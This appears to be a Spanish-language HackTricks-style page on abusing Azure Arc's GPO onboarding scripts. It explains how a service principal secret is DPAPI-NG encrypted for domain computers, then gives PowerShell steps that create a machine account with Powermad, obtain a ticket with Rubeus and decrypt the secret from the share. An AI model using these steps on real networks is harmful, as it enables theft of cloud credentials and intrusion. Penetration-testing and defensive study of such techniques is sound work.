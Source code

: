 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc permite la integración de nuevos servidores internos (servidores unidos al dominio) en Azure Arc utilizando el método de Objeto de Política de Grupo. Para facilitar esto, Microsoft proporciona un kit de herramientas de implementación necesario para iniciar el procedimiento de incorporación. Dentro del archivo ArcEnableServerGroupPolicy.zip, se pueden encontrar los siguientes scripts: DeployGPO.ps1, EnableAzureArc.ps1 y AzureArcDeployment.psm1.

Cuando se ejecuta, el script DeployGPO.ps1 realiza las siguientes acciones:

1. Crea el GPO de Incorporación de Servidores Azure Arc dentro del dominio local.
2. Copia el script de incorporación EnableAzureArc.ps1 en el recurso compartido de red designado creado para el proceso de incorporación, que también contiene el paquete de instalación de Windows.

Al ejecutar este script, los administradores del sistema deben proporcionar dos parámetros principales: **ServicePrincipalId** y **ServicePrincipalClientSecret**. Además, requiere otros parámetros como el dominio, el FQDN del servidor que aloja el recurso compartido y el nombre del recurso compartido. También se deben proporcionar más detalles como el ID del inquilino, el grupo de recursos y otra información necesaria al script.

Se genera un secreto cifrado en el directorio AzureArcDeploy en el recurso compartido especificado utilizando cifrado DPAPI-NG. El secreto cifrado se almacena en un archivo llamado encryptedServicePrincipalSecret. La evidencia de esto se puede encontrar en el script DeployGPO.ps1, donde el cifrado se realiza llamando a ProtectBase64 con $descriptor y $ServicePrincipalSecret como entradas. El descriptor consiste en los SIDs del grupo de Computadoras de Dominio y Controladores de Dominio, asegurando que el ServicePrincipalSecret solo pueda ser descifrado por los Controladores de Dominio y los grupos de seguridad de Computadoras de Dominio, como se indica en los comentarios del script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Tenemos las siguientes condiciones:

1. Hemos penetrado con éxito la red interna.
2. Tenemos la capacidad de crear o asumir el control de una cuenta de computadora dentro de Active Directory.
3. Hemos descubierto un recurso compartido de red que contiene el directorio AzureArcDeploy.

Hay varios métodos para obtener una cuenta de máquina dentro de un entorno de AD. Uno de los más comunes es explotar la cuota de cuentas de máquina. Otro método implica comprometer una cuenta de máquina a través de ACLs vulnerables o varias otras configuraciones incorrectas.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una vez que se obtiene una cuenta de máquina, es posible autenticarse utilizando esta cuenta. Podemos usar el comando runas.exe con la bandera netonly o usar pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Al tener el TGT de nuestra cuenta de computadora almacenado en memoria, podemos usar el siguiente script para descifrar el secreto del principal del servicio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

En este punto, podemos recopilar la información restante necesaria para conectarnos a Azure desde el archivo ArcInfo.json, que se almacena en el mismo recurso compartido de red que el archivo encryptedServicePrincipalSecret. Este archivo contiene detalles como: TenantId, servicePrincipalClientId, ResourceGroup, y más. Con esta información, podemos usar Azure CLI para autenticarnos como el service principal comprometido.

## Referencias

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
